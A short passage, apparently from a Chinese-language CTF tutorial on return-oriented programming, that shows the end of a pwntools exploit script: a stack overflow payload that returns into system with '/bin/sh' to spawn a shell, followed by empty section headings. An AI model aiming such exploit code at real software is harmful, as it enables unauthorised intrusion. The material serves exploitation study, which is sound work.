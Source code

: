 ```python

r.sendline(p)
r.sendline('/bin/sh')


# 第三轮，调用system('/bin/sh')
r.recvuntil('Can you find it !?')
p = 'a'*(0x6c+0x4)
p += p32(system_addr)
p += p32(0xdeadbeef)
p += p32(buf)
r.sendline(p)
'''
r.interactive()
```



## 中级ROP







## 高级ROP

